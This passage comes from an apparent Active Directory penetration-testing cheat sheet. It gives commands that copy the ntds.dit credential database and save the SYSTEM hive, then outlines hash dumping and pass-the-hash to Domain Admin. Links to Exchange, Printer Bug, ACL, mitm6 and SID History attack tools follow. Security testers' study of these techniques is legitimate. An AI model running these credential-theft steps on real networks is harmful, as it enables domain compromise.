 Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice

```
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\<PathToSave>\ntds.dit -Overwrite
```

Dump the SYSTEM hive

```
reg save HKLM\SYSTEM c:\temp\system.hive
```

3\) Using smbclient.py from impacket or some other tool we copy ntds.dit and the SYSTEM hive on our local machine. 4) Use secretsdump.py from impacket and dump the hashes. 5) Use psexec or another tool of your choice to PTH and get Domain Admin access.

### Abusing Exchange

* [Abusing Exchange one Api call from DA](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
* [CVE-2020-0688](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
*   [PrivExchange](https://github.com/dirkjanm/PrivExchange) Exchange your privileges for Domain Admin privs by abusing Exchange

    ****

### **Weaponizing Printer Bug**

* [Printer Server Bug to Domain Administrator](https://www.dionach.com/blog/printer-server-bug-to-domain-administrator/)
*   [NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

    ****

### **Abusing ACLs**

* [Escalating privileges with ACLs in Active Directory](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
* [aclpwn.py](https://github.com/fox-it/aclpwn.py)
*   [Invoke-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn)

    ****

### **Abusing IPv6 with mitm6**

* [Compromising IPv4 networks via IPv6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
*   [mitm6](https://github.com/fox-it/mitm6)

    ****

### **SID History Abuse**

_What is this?: If we manage to compromise a child domain of a forest and _[_SID filtering_](https://www.itprotoday.com/windows-8/sid-filtering)_ isn't enabled (most of the times is not), we can abuse it to privilege escalate to Domain Administrator of the root domain of the forest. This is possible because of the _[_SID History_](https://www.itprotoday.com/windows-8/sid-history)_ field on a kerberos TGT ticket, that defines the "extra" security groups and privileges._

